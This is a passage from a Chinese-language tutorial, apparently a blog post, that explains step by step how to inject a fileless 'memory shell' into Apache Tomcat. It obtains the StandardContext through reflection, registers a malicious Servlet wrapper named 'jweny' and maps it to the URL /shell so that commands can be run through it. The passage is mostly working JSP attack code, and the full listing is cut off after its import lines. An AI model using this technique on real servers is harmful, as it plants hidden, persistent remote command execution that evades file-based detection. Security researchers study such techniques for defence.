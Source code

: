 ```jsp

    %>
```

根据`Servlet`的五个接口类，我们只需要在`service`中加入命令行执行的动作，即可！！！

**第二步：**获取当前的`StandardContext`

```jsp
<%
    // 获取StandardContext
    ServletContext ctx = request.getSession().getServletContext(); // 获取ServletContext对象，它代表当前Web应用的上下文环境
    Field f = ctx.getClass().getDeclaredField("context"); // 通过反射获取ServletContext实例的"context"字段。
    f.setAccessible(true); // 设置访问权限，允许访问私有字段
    ApplicationContext appCtx = (ApplicationContext)f.get(ctx); // 获取实际的ApplicationContext对象

    f = appCtx.getClass().getDeclaredField("context"); //使用反射，从ApplicationContext对象中获取"context"字段，
    f.setAccessible(true); // 设置访问权限
    StandardContext standardCtx = (StandardContext)f.get(appCtx); // 获取StandardContext对象
%>
```

根据之前的知识可以知道：`Context` 负责管理 `Wapper`，而 `Wapper` 又负责管理` Servlet` 实例。因此，我们这一步获取`StandardContext`对象后，就可以用`createWapper() `来生成一个` Wapper `对象。

**第三步：**将创建的恶意`Servlet`封装成`StandardWrapper`并添加到`StandardContext`的`children`当中；

```jsp
<%
   // 用Wrapper对其进行封装
    org.apache.catalina.Wrapper newWrapper = standardCtx.createWrapper(); //从StandardContext.createWapper()获得一个Wapper对象
    newWrapper.setName("jweny");  //设置Servlet的名字
    newWrapper.setLoadOnStartup(1); // 设置启动级
    newWrapper.setServlet(servlet); // 配置Servlet的Class
    newWrapper.setServletClass(servlet.getClass().getName());

    // 添加封装后的恶意Wrapper到StandardContext的children当中
    standardCtx.addChild(newWrapper);
    %>
```

**第四步：**添加`ServletMapping`    并将访问的`URL`和`wrapper`进行绑定

```jsp
<%
  // 添加ServletMapping将访问的URL和Servlet进行绑定
    standardCtx.addServletMapping("/shell","jweny");
%>
```

此处的意思是，我们只要访问当前应用的`/shell`即可出发该内存马！（注意这里需要在我们的环境中放开shell的访问权限）

全部的jsp内容：

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8"
         pageEncoding="UTF-8"%>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="java.io.IOException"%>
<%@ page import="javax.servlet.DispatcherType"%>
<%@ page import="javax.servlet.Filter"%>
<%@ page import="javax.servlet.FilterChain"%>
<%@ page import="javax.servlet.FilterConfig"%>
```